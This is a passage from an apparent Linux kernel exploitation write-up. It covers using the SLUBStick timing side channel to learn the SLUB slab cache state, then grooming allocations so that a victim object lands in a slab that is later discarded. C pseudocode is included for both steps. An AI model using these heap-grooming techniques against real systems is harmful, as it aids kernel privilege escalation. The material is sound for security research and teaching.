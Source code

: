 ### 2.1. Side Channel Slab State Using SLUBStick

Before spraying, the state of the slab cache is unknown, and several key values need to be determined:
1. The number of objects currently allocated from active slab (`inuse`).
2. The number of CPU-level partial slabs.
3. The number of node-level partial slabs.

We utilize [SLUBStick](https://www.usenix.org/system/files/usenixsecurity24-maar-slubstick.pdf) technique here. When no slab is available, the SLUB allocator will request a new slab from the buddy system, a process that **takes more time** compared to typical allocations.

When a time-consuming memory allocation request is detected, the following states can be inferred:
1. Only one object is allocated.
2. No partial CPU-level slabs are present.
3. No partial node-level slabs are present.

The pseudocode is as follows:
``` c
int object_idx[cpu_partial_slabs + 1][objs_per_slab];
void side_channel_slab_state()
{
    unsigned long t0, t1;
    int obj_idx;

    while (1) {
        sched_yield();
        t0 = rdtsc_begin();
        obj_idx = allocate_objectA();
        t1 = rdtsc_end();

        if (is_time_consuming(t1 - t0)) {
            object_idx[0][0] = obj_idx;
            break;
        }
    }
}
```

### 2.2. Craft The Slab State

Since the partial slabs are linked in reverse order, as follows:
```
(kmem_cache->cpu_slab->partial) -> slab_4 -> slab_3 -> slab_2 -> slab_1 -> slab_0
```

We should allocate objectV in early slab, allowing it to belong to the slabs that are **eventually discarded**.

The pseudocode is as follows:

``` c
void setup_slab_state()
{
    for (int i = 0; i <= cpu_partial_slabs /* 8 */; i++) {
        for (int j = 0; j < objs_per_slab /* 32 */; j++) {
            if (i == 0 && j == 0) continue; // skip first
            if (i == 0 && j == 1) {
                object_idx[i][j] = allocate_objectV(); // victim object should be allocated earliy
            } else {
                object_idx[i][j] = allocate_objectA();
            }
        }
    }

    allocate_objectA(); // kick out current active slab
}
```